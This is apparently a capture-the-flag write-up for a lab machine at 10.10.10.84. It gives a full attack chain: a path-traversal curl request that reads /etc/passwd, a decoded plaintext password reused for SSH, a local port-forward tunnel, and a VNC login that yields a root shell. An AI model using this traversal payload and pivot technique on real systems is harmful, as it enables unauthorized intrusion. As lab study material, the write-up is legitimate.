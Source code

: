 ![logo](./logo.png)

# USER

Website hosted on the :80 port allows for shell script testing

listfiles.php gives a directory listing.
A file called pwdbackup.txt is shown

It's base64 encoded 13 times. Decoding gives us:

```
Charix!2#4%6&8(0
```

By traversing to the passwd file we can get the username

```
curl 'http://10.10.10.84/browse.php?file=..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd'
```

Therefore we can log into ssh using:

```
charix
ssh charix@10.10.10.84
```

This allows us to get the user.txt

# ROOT

In the directory is a secret.zip

The .zip file is password protected. Will run it through a rockyou script
No need for the brute force. The password is re-used from the user account

You can see listening services

```
netstat -an 
```

You can create tunneled ssh using -L local_port:address:remote_port

```
ssh -L 5801:127.0.0.1:5801 -L 5901:127.0.0.1:5901 charix@10.10.10.84
```

This allows us to connect to the port on our base machine. Running:

```
curl 127.0.0.1:5901
```

Then by using the secret we found ealier we can authenticate with the VNC server and gain a shell

```
vncviewer 127.0.0.1::5901 -passwd secret
```
